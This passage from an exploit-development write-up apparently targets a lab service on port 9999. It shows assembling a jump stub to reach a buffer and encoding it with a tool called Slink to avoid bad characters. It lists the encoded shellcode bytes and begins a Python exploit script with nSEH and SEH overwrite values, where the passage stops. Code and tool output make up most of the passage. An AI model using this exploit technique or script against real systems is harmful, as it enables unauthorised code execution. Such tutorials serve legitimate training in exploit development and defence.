 To accomplish this, we'll push `ESP`, pop `ESP` into a register (`EBX`), subtract x-amount of bytes from it so that it ends up holding the address of the beginning of our `A` buffer `017DF20A`, and then finally jump to it with a `CALL` instruction. 

`ESP` is currently `017DFFC3` so we subtract `017DF20A` and get a difference of `DB9`. Time for some Assembly!
```terminal_session
nasm > push esp
00000000  54                push esp
nasm > pop ebx
00000000  5B                pop ebx
nasm > sub ebx, 0xdb9
00000000  81EBB90D0000      sub ebx,0xdb9
nasm > call ebx
00000000  FFD3              call ebx
```

So now we have our shellcode that we need encoded: `\x54\x5b\x81\xeb\xb9\x0d\x00\x00\xff\xd3`. 

Since `\x54\x5b` aren't restricted, we need to just prepend these to our encoded shellcode and leave them unencoded. This is a nice trick. If we were to encode `\x54\x5b\x81\xeb\xb9\x0d\x00\x00\xff\xd3` with Slink, our encoded shellcode would be **83 bytes**. However, if we just encode `\x81\xeb\xb9\x0d\x00\x00\xff\xd3`, our encoded shellcode is **52 bytes**, that's a huge difference!

Slink gives us the following encoded shellcode:
```terminal_session
Enter your shellcode: \x81\xeb\xb9\x0d\x00\x00\xff\xd3
Enter shellcode variable name: longJump
[+] Shellcode size is divisible by 4
[*] Encoding [d3ff0000]..
[!] Possible bad character found, using alterantive encoder..
longJump += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
longJump += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
longJump += "\x05\x11\x11\x77\x62" ## add  eax, 0x62771111
longJump += "\x05\x11\x11\x66\x62" ## add  eax, 0x62661111
longJump += "\x05\x11\x11\x55\x42" ## add  eax, 0x42551111
longJump += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
longJump += "\x50"                 ## push eax
[*] Encoding [0db9eb81]..
[+] No bad character found, using default encoder..
longJump += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
longJump += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
longJump += "\x05\x41\x76\x65\x07" ## add  eax, 0x07657641
longJump += "\x05\x40\x75\x54\x06" ## add  eax, 0x06547540
longJump += "\x50"                 ## push eax
[*] Shellcode final size: 52 bytes
```

So we add our `longJump` variable to our exploit which now looks like this: 
```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

nSeh = '\x74\x06\x75\x04'

Seh = '\x2b\x17\x50\x62'

espAdj = '\x54\x58\x66\x05\x4b\x13\x50\x5C'

jump = ""
jump += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
```